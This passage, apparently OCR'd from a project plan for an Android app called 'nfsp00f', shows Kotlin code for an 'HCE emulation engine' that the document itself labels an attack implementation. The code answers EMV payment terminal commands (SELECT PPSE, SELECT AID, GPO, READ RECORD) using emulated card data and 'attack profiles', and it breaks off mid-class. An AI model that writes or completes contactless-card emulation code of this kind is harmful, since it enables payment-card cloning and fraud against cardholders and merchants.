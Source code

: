 
## 🎭 **PHASE 2: HCE EMULATION ENGINE (Attack Implementation)**

### **2.1 Enhanced HCE Service** `[Priority: HIGH]`
**Location**: `/android-app/app/src/main/java/com/example/nfsp00f/emulation/`

```kotlin
// EnhancedHceService.kt - Real HCE attack implementation
class EnhancedHceService : HostApduService() {
    private lateinit var attackManager: EmvAttackEmulationManager

    override fun onCreate() {
        super.onCreate()
        attackManager = EmvAttackEmulationManager.getInstance()
    }

    override fun processCommandApdu(commandApdu: ByteArray, extras: Bundle?): ByteArray {
        val command = byteArrayToHex(commandApdu)

        return when {
            isSelectPpse(commandApdu) -> {
                val response = attackManager.processSelectPpse(commandApdu)
                logApdu("SELECT PPSE", command, byteArrayToHex(response))
                response
            }
            isSelectAid(commandApdu) -> {
                val response = attackManager.processSelectAid(commandApdu)
                logApdu("SELECT AID", command, byteArrayToHex(response))
                response
            }
            isGetProcessingOptions(commandApdu) -> {
                val response = attackManager.processGpo(commandApdu)
                logApdu("GPO", command, byteArrayToHex(response))
                response
            }
            isReadRecord(commandApdu) -> {
                val response = attackManager.processReadRecord(commandApdu)
                logApdu("READ RECORD", command, byteArrayToHex(response))
                response
            }
            else -> {
                byteArrayOf(0x6D.toByte(), 0x00.toByte()) // Instruction not supported
            }
        }
    }
}

// EmvAttackEmulationManager.kt - Attack coordination
class EmvAttackEmulationManager private constructor() {
    private var activeProfile: AttackProfile = AttackProfile.STANDARD_EMULATION
    private var emulatedCard: EmvCardData? = null

    companion object {
        @Volatile
        private var INSTANCE: EmvAttackEmulationManager? = null

        fun getInstance(): EmvAttackEmulationManager {
            return INSTANCE ?: synchronized(this) {
                INSTANCE ?: EmvAttackEmulationManager().also { INSTANCE = it }
            }
        }
    }
```